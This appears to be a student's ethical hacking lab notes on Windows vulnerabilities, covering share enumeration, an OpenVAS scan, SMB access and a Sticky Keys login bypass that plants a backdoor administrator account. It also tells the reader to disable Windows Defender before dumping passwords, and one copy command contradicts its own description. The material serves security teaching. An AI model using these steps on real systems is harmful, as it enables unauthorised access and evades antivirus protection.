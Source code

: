 # EHD Practical 9 - OS Vulnerabilities

###### tags: #EHD 

## Table of Contents
```toc
```

## Windows Vulnerabilities
### View Shared Resources on Windows Systems
**On Win10 VM**
1. Repeat `net view \\Win-10 IP` to show a list of available shared folders
2. Repeat the `net view` command on another Win10 VM
3. Run `net use Z: \\Win10-IP\shared` to map shared folder to Z drive
4. Run `dir Z: \\Win10-IP\shared`
5. Type `nbtstat /?` for help
6. Type `nbtstat -a Win10-IP`

### OpenVAS
> OpenVAS  is an open source vulnerability assessment software like Nessus

1. Power on OpenVAS image
2. At the login screen, note the IP address of the OpenVAS image
3. On web browser on another VM, browser to the OpenVAS IP and add exception for the security certificate
4. Login to the Greenbone Security Manager with username `admin` and password `admin`
5. Power on and use web-server2 as the target and take note of its IP address
6. In the Web Browser, in the Greenbone Security Manager, under the Configuration menu, select **Targets**
7. Click on the star icon on the top left corner to create a **New Target**
8. Check that the Manual radio button is selected and enter IP address of web-server2
9. Click **Create**
10. Under the Scans menu, select Tasks
11. Click on the star icon in the top left corner to create a **New Task**
12. Enter a name for a task
13. For Scan Config, choose the default **Full and fast**
14. Click **Create**
15. Under Actions, click on the Play icon to start the scan
16. When the scan is completed, the status will be updated to **Done**
17. Under **Reports**, click to view the report to view the vulnerabilities found
18. When clicking on the vulnerability, details will be displayed
19. Under the **Configuration** menu, select Scan Configs
20. Click on Full and fast to see what type of NVTs (Network Vulnerability Tests) are included in the scan
21. To shut down OpenVAS, select the **Maintenance** and choose **Power**

### SMB/CIFS
> Server Message Block (SMB) or CIFS (Common Internet File System) can be used to share resources between computers running Windows or Linux

**On Kali VM**
1. To list out shared folders on a remote system, use the `smbclient` command (Use `-U` option to specify Windows 10 user account)
```
smbclient -L Win10-IP -U admin 
```
2. Start Wireshark to capture the network traffic
3. Use the following command to connect shared folder on Win10:
```
smbclient //Win10-IP/shared
```
4. Press <kbd>Enter</kbd> if asked for password
5. If there is a `NT_STATUS_ACCESS_DENIED` message, specify Win10 username
```
smbclient //Win10-IP/shared -U admin
``` 
6. At the SMB prompt, type `ls` to list contents of the share
7. Use the `get` command to download the text file to Kali
```
get test.txt
```
8. Type exit to end the connection
9. Stop Wireshark. View the TCP packets with the SMB protocol connecting to port 445 on Win10

### Accessing Windows without Logging In (Sticky Keys)
1. Shutdown Win10 VM
2. Use ISO image file 

![](https://i.imgur.com/dCGpCq9.png)

3. Start the Win10 VM. When VMWare word appears, press <kbd>F2</kbd> to enter BIOS setup utility
4. In the Boot menu, select CD-ROM Drive and bring it to the top
5. Press <kbd>F10</kbd> to save and exit
6. Win10 VM will boot into Kali using the ISO file
7. Login with username `root` and password `toor` (or username `kali` and password `kali`)
8. Type `fdisk -l` to view the Windows partition
9. Windows partition may be listed as `/dev/sda2`
10. Type `mkdir /mnt/sda2` to create a mount point
11. Type `mount /dev/sda2/ /mnt/sda2` to mount the Windows partition
12. Type `ls /mnt/sda2` to list contents of the Windows partition
13. Type `cd /mnt/sda2/Windows/System32`
14. Type `cp sethc.exe sethc.exe.bak` to make a copy of the `sethc.exe` file
15. Type `cp cmd.exe sethc.exe.bak` to overwrite the original file with the Command Prompt executable
16. Type `init 0` to shutdown
17. Set the CD/DVD back to "Use Physical Drive"
18. Start up the Win10 VM
19. At the login screen, press the shift key 5 times quickly
20. In the Command Prompt, type:
```
net user hacker 1qwer$#@! /add
net localgroup administrators hacker /add
exit
```

21. Restart the Win10 VM to refresh and login to the newly added user

### Windows Password Cracking
> Ophcrack is an open source Windows password cracker that uses rainbow tables
> - May not work with antivirus software which can flag it as a Trojan

**On Win10 VM**
<u>Using fgdump</u>
1. Disable the Windows Defender to prevent anti-malware from detecting fgdump